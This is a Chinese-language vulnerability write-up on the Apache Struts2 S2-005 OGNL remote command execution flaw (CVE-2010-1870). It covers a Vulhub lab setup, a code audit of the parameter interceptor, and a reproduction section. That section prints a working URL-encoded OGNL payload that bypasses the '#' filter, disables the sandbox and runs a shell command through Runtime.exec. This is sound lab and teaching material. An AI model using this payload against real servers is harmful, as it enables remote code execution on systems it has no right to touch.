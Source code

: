 
# 0X00 漏洞信息
S2-005的出现是官方在修补S2-003（版本：Struts 2.0.12）漏洞时考虑不充分而造成的，Struts2会将http的每个参数名解析为OGNL语句（可理解为java代码）执行，而OGNL通过#来访问Struts2的对象，Struts2通过用拦截器过滤字符#来防止被恶意利用，然而忽略了通过unicode编码(\u0023)或8进制(\43)即绕过了安全限制。S2-003漏洞，官方通过增加安全限制配置（禁止使用方法调用和类方法等）来文档，但是安全配置被再次导致了漏洞，攻击者可以利用OGNL表达式将这2个选项打开，但是此安全配置仍然可以通过OGNL表达式绕过，也就导致了S2-005的出现。

XWork利用巴西GET参数的键和值OGNL表达式解析成Java语句，如：
```
user.address.city=Bishkek&user['favoriteDrink']=kumys
//会被转化成
action.getUser().getAddress().setCity("Bishkek")
action.getUser().setFavoriteDrink("kumys") 
```

触发漏洞利用了这个点，再配合OGNL的沙盒-绕过方法，组成了S2003。官方对003的修复方法是增加了安全模式（沙），S2-005在OGNL表达式中将安全模式关闭，又绕过了修复方法。整体过程如下：

- S2-003 使用\u0023绕过2对#的防御
- S2-003后官方增加了安全模式（沙盒）
- S2-005 使用OGNL表达式将沙盒关闭，继续执行代码


# 0X01 漏洞概述
| 漏洞名称 | Struts2-005远程命令执行漏洞 |
| --- | --- |
| 漏洞等级 | 高危 |
| CVE编号 | CVE-2010-1870 |
| CNVD编号 | 暂无 |
| CNNVD编号 | 暂无 |
| 其他编号 | 暂无 |
| 披露时间 | 2010/05/10 |
| 分数 | 5.0 |
| CVSS |  (AV:N/AC:L/Au:N/C:N/I:P/A:N) |
| 披露链接 | [https://nvd.nist.gov/vuln/detail/CVE-2010-1870](https://nvd.nist.gov/vuln/detail/CVE-2010-1870) |


# 0X02 影响范围
Struts 2.0.0 - Struts 2.1.8.1


# 0X03 环境搭建
使用Vulhub搭建
```
cd vulhub/struts2/s2-005/
docker-compose up -d
```
![image.png](./assets/1671783501864-8003c7fe-a52d-4797-a986-2529f05dd013.png)

浏览器访问
![image.png](./assets/1671784082635-2c61cfda-1de2-4182-ae55-0c865af04775.png)


# 0X04 代码审计
由官方发布的漏洞通告可知，S2-005是绕过XWorkParameterinterceptors对#的过滤而触发的远程命令执行漏洞，这个拦截器主要就是对url的参数进行一些处理，执行方法是doIntercept
![image.png](./assets/1671782806976-9192fa3e-dff6-4a2d-a219-416840fb7dca.png)

setParameters方法调用了acceptableName来判断是否含有非法字符，例如调用对象的#
![image.png](./assets/1671782827600-686c6aac-1cd7-4fb6-9f93-d65356f25679.png)
![image.png](./assets/1671782835287-f38e7e83-b3b1-44a3-94bc-54991342a538.png)

通过判断后，会调用setValue把参数变成键值对放入另一个valueStack中
![image.png](./assets/1671782840549-b5f7c9df-05d3-453b-b48e-d26ac4b7707d.png)

在ognl中，这个valueStack方法的实现类是OgnlValueStack.class，在这个类的setValue方法中，又调用了ognlUtil的setValue方法
![image.png](./assets/1671782845066-31f55196-0360-4500-9a64-eca9e28ea8a0.png)

在ognlUtil中可以看到调用了ognl的setValue方法，在调用这个方法之前，会先调用内部的compile方法，将传入的参数解析，也就是将\u0023解析为#
![image.png](./assets/1671782851148-12445430-1c0e-45fd-b006-4718716997ee.png)
![image.png](./assets/1671782882911-8091a739-fbe6-4f76-bcfa-350604992362.png)

解析之后的字符串会在ognl.setValue方法中执行
![image.png](./assets/1671782888805-cf0813b2-8c27-4a16-a3c5-7a9d7212dead.png)


# 0X05 漏洞复现
```
?(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/sussess%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1
```
![image.png](./assets/1671784610138-3f9bff1e-6933-4f20-9165-475641f60538.png)

验证
```
docker ps #查看容器ID
docker exec -it ID /bin/bash #进入容器
ls /tmp  #查看容器内tmp目录
exit  #退出容器
```
![image.png](./assets/1671784655636-50230786-ab79-4f6f-9c5e-ec514ec848ae.png)


# 0X05 工具
[Struts2-Scan](https://www.yuque.com/xmtxsec/network_security/iczxlyyk6v7tzfwt?view=doc_embed)

